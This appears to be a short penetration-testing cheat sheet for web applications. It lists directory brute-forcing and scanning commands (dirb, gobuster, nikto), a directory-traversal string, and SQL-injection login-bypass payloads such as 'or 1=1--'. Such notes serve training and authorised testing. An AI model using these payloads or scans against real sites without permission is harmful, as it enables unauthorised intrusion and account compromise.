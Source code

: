 ```bash
dirb http://target.com /path/to/wordlist
dirb http://target.com /path/to/wordlist -X .sh,.txt,.htm,.php,.cgi,.html,.pl,.bak,.old
```

```bash
gobuster dir -u https://target.com -b 403 ms-w /usr/share/wordlists/dirb/big.txt -x .txt,.php
use -r (recursive) or try found folders
```

```bash
nikto –h 10.0.0.1 #web vulnerability scanner
```

```jsx
owasp zap
```

```bash
Look for Default Credentials
```

```bash
sql
```

- View Page Source

    ```bash
    Hidden Values
        Developer Remarks
        Extraneous Code
        Passwords!
    ```

- burpsuite

    ```bash
    compare “host:”
    crsf token = no bruteforce
    add php code if url has anything.php
            <L>
     anything being executed?
            try directory traversal
                ../../../home
    ```

- sign in page

    ```bash
    SQL Injection

        ‘or 1=1– –
        ‘ or ‘1’=1
        ‘ or ‘1’=1 — –
        ‘–
        Use known Username
            tyler’ — –
            tyler’) — –
